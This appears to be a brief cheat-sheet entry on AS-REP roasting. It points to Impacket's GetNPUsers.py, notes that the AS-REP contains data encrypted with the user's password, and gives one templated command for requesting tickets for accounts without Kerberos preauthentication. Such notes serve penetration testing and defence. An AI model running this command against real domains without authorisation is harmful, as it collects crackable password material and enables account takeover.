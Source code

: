 ### Source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py  

```
TGT will be issued but not usable without session key.
The AS-REP package contains a part encrypted with the user password.
```

### Request TGT for user without PreAuthentication set (asreproasting)
```
impacket-GetNPUsers <domain>/<user>:<password>
```

